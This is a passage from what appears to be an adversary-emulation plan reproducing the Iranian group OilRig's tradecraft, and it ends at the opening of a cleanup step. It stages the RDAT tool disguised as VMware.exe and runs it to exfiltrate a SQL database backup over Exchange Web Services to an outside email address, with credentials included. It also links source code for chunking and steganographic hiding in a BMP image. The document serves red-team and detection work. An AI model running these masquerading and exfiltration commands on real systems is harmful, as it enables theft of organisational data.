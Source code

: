 Create directory C:\Programdata\Vmware

```bash
# OilRig has saved RDAT to disk as C:\Programdata\Nt.dat before moving and renaming it to C:\Programdata\Vmware\VMware.exe

mkdir C:\Programdata\Vmware
```

Move and rename RDAT as C:\Programdata\Vmware\VMware.exe

```bash
# OilRig has saved RDAT to disk as C:\Programdata\Nt.dat before moving and renaming it to C:\Programdata\Vmware\VMware.exe

move C:\Programdata\Nt.dat C:\Programdata\Vmware\VMware.exe
```

Change directory into the SQL backup directory (PsExec has a character limit)

```bash
cd "C:\Program Files\Microsoft SQL Server\MSSQL15.MSSQLSERVER\MSSQL\Backup\"
```

Execute RDAT to pull back target database backup file.

```bash
# OilRig has used EWS APIs to exfiltrate data to an adversary controlled email

C:\ProgramData\Vmware\VMware.exe --path="sitedata_db.bak" --to="sistan@shirinfarhad.com" --from="gosta@boom.box" --server="10.1.0.6" --password='d0ntGoCH4$ingW8trfalls' --chunksize="200000"
```

<br>

### :moyai: Source Code
*  RDAT chunking: [Program.cs#L104-L109](Program.cs#L104-L109)
*  RDAT appending file bytes to guest.bmp: [Program.cs#L117-L129](Program.cs#L77-L85)
* RDAT leverages EWS API to exfil chunks: [Program.cs#L95-L115](Program.cs#L43-L75)
  
<br>

### :microscope: Cited Intelligence
*  RDAT/Exfiltration: https://unit42.paloaltonetworks.com/oilrig-novel-c2-channel-steganography/
*  TwoFace webshell: https://unit42.paloaltonetworks.com/unit42-twoface-webshell-persistent-access-point-lateral-movement/
*  C2 Communications: https://unit42.paloaltonetworks.com/the-oilrig-campaign-attacks-on-saudi-arabian-organizations-deliver-helminth-backdoor/

<br>

## Step 11 - Cleanup

### :microphone: Voice Track

Step 11 emulates OilRig's cleanup and egress from the target network.

---